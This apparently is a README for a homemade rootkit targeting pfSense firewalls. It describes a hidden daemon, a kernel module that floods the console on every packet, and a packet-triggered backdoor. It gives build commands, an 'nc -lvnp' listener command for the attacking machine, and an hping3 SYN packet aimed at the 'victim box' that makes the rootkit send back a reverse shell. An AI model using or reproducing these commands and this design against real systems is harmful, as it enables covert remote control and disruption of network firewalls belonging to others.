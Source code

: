 The "unused" directory holds the c code that compiles binaries.

To compile "apeshit" within pfsense you need to use "clang15 -I/sys -o apeshit apeshit_daemon.c" since stdio.h doesn't k know the path of cdefs.h. 

"apeshit_damon.c" produces "apeshit" which is a binary that creates a daemon that sleeps infinitly and is named apeshit, you can see it with "pgrep -l apeshit".

"brickbox.ko" posts an image and funny message everytime a packet comes in or goes out, this can actually be stopped by running <kldunload brickbox.ko> but who da hell is gonna know dat.  It is completely still possible to run commands but the screen prints really fast so it is hard to see shit.  Inside unused is "make_brick_box_face.c" which has comments at the top for the makefile and creates this bin.

Run "nc -lvnp 6969" on the attaking machine before asking for a reverse shell since you need to be listening for it.
To construct a packet that will trigger the packet filtering and send a reverse shell simply run
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
from your host machine targeting the ip of the victim box that has the rootkit, currently any destination port works.
